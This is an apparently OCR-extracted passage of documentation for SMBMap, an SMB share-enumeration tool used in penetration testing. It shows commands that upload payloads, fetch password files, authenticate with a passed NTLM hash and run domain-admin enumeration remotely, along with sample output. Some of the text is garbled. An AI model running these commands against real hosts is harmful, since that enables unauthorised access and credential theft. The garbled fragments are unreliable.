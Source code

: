```
                        i.e.'C$\temp\passwords.txt'
  --upload SRC DST      Upload a file to the remote system i.e.
                        'C:/tmp/payload.exe'
{void}
```
```
>C$\temp\payload.exe
  --delete PATH TO FILE
                        Delete a remote file, ex. 'C$\temp\msf.exe'
  --skip                Skip delete file confirmation prompt
```  
Public Key Tokens:
```
```
$ python smbmap.py -u jsmith -p password1 -d workgroup -H 192.168.0.1
$ python smbmap.py -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -H 172.16.0.20
$ python smbmap.py -u 'apadmin' -p 'asdf1234!' -d ACME -H 10.1.3.30 -x 'net group "Domain Admins" /domain'
```
(c)
```
## Default Output:
```
$ ./smbmap.py -H 192.168.12.123 -u administrator -p asdf1234
[+] Finding open SMB ports...
[+] User SMB session established on 192.168.86.39...
[+] IP: 192.168.86.39:445	Name: biffhenderson-pc.lan
	Disk                                Permissions	    Comment
	----                                -----------	    -------
	ADMIN$                              READ, WRITE	    Remote Admin
	C$                                  READ, WRITE	    Default share
	IPC$                                NO ACCESS	    Remote IPC
	Users                               READ, WRITE
```

## Command execution:
```
$ python smbmap.py -u ariley -p 'P@$$w0rd1234!' -d ABC -x 'net group "Domain Admins" /domain' -H 192.168.2.50
[+] Finding open SMB ports...
[+] User SMB session established...
[+] IP: 192.168.2.50:445        Name: unknown
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
abcadmin
T  h  e  c  o  m  m  a n  d  c  o  m  p  l  e  t  e  d  s  u  c  c  e  s  s  f  u  l  l  y  !
```
